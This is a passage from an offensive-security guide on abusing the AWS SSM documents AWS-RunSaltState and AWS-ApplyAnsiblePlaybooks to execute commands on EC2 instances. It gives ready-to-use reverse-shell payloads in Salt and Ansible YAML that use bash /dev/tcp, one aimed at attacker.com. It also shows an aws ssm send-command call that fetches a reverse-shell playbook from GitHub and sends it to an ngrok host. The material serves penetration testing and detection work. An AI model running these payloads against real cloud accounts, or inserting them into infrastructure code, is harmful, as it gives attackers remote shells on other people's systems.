 There are 7 other SSM Documents that can be used for executing system commands on EC2 instances as first documented in the blog post [7 Lesser-Known AWS SSM Document Techniques for Code Execution](https://securitycafe.ro/2023/04/19/7-lesser-known-aws-ssm-document-techniques-for-code-execution/).

##### AWS-RunSaltState

This document will download from a remote location a Salt state file and interpret it. Salt state files are part of SaltStack, a technology for infrastructure management. The file format is YAML and the AWS-RunSaltState document can download it from S3 Buckets or HTTP(S) servers.

The payload for running arbitrary code will use “cmd.run”, as exemplified below where we have a payload for getting a reverse shell.

```yaml
mycommand:
  cmd.run:
    - name: 0<&196;exec 196<>/dev/tcp/attacker.com/1337; sh <&196 >&196 2>&196
```

The downside is that Salt Stack needs to be installed on the target system and that’s not the case by default.

For this document, as well as for the rest of them, we can create parameterized payloads. Meaning that we will use a single generic payload and pass the host and port as parameters.

```yaml
# source: https://github.com/saw-your-packet/fun-with-ssm/blob/main/AWS-RunSaltState/linux/reverse_shell.yml
mycommand:
  cmd.run:
    - name: 0<&196;exec 196<>/dev/tcp/{{host}}/{{port}}; sh <&196 >&196 2>&196
```

Example usage:

```bash
aws ssm send-command --document-name AWS-RunSaltState \
    --instance-id i-06ae9883fe6e5d721 \
    --parameters \
'{"stateurl":["https://raw.githubusercontent.com/saw-your-packet/fun-with-ssm/main/AWS-RunSaltState/linux/reverse_shell.yml"], "pillars":["{\"host\":\"7.tcp.eu.ngrok.io\", \"port\":\"14460\"}"]}'
```

##### AWS-ApplyAnsiblePlaybooks

It downloads from remote locations Ansible Playbooks and executes them. It can download from S3 Buckets or GitHub repositories.

The advantage here is that it can also install Ansible on the system.

The parameterized Ansible Playbook for getting a reverse shell:

```yaml
# Source: https://github.com/saw-your-packet/fun-with-ssm/blob/main/AWS-ApplyAnsiblePlaybooks/linux/reverse_shell.yml
---
  - name: "Playing with Ansible and Git"
    hosts: localhost
    connection: local 
    tasks:

    - name: "Saying hi from remote host"
      shell: "0<&196;exec 196<>/dev/tcp/{{host}}/{{port}}; sh <&196 >&196 2>&196"
```
